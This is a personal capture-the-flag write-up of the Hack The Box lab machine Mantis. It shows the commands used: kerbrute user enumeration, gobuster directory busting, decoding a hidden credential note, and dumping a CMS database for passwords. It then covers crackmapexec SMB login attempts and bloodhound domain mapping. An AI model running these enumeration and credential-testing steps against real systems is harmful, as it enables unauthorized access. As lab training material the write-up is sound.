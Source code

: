 
```
Domain Name: HTB                                                              
Domain Sid: S-1-5-21-4220043660-4019079961-2895681657
```

```
kerbrute userenum -d htb.local --dc 10.10.10.52 userlist.txt -t 100
```

```
james@htb.local
James@htb.local
administrator@htb.local
mantis@htb.local
JAMES@htb.local
Administrator@htb.local
Mantis@htb.local
```

![[Pasted image 20240515233953.png]]


We have to go Old School as this machine is hard and we need a entry point to get into.
We have 2 domain controller and 3 http sites which simply means that we have to do directory busting.

```
http://10.10.10.52:1337/secure_notes/
```


```
gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![[Pasted image 20240516015043.png]]
![[Pasted image 20240516003001.png]]

We already have the valid user names so in short we have the usernames and all we need is a password to get into.


```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.


Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

If you the file names seems fishy to mee
```
ev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
```


It's some kind of password
```
6d2424716c5f53405f504073735730726421
```
![[Pasted image 20240516005334.png]]


We got the password of the MS-SQL user.
```
m$$ql_S@_P@ssW0rd!
```
![[Pasted image 20240516005420.png]]

I just want to see if we can login with this into smb but failed
```
crackmapexec smb 10.10.10.52 -u ~root/HackTheBox/Mantis/valid_user.txt -p m$$ql_S@_P@ssW0rd!
```


We have to login into the sql server and i have to find the command for it

Tried this command but it didn't worked
```
mysql -h 10.10.10.52 -P 50255 -u admin -p 'm$$ql_S@_P@ssW0rd!'
```

I have installed a GUI base software to handle this stuff
![[Pasted image 20240516011427.png]]


![[Pasted image 20240516013029.png]]


```
Hostname: 10.10.10.52
Database: orcharddb
Password: m$$ql_S@_P@ssW0rd!
```

It worked finally and i was able to download the database
![[Pasted image 20240516014152.png]]


We got the database we want
![[Pasted image 20240516014208.png]]
Now will search for passwords

Will simply search for Users
![[Pasted image 20240516015532.png]]

Select data and we get the password
```
james@htb.local
```

```
J@m3s_P@ssW0rd!
```

```
admin
```

```
AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
```

![[Pasted image 20240516015649.png]]


```
crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!' --shares
```
![[Pasted image 20240516015931.png]]

I have not able to get shell with evil-winrm or psexec let's change the approach and try 
ldap and bloodhound.


```
bloodhound-python -d htb.local -u james -p 'J@m3s_P@ssW0rd!' -ns 10.10.10.52 -c all 
```
![[Pasted image 20240516022525.png]]

![[Pasted image 20240516025002.png]]

![[Pasted image 20240516025022.png]]


As we know that RDP is not open on this host
![[Pasted image 20240516082732.png]]

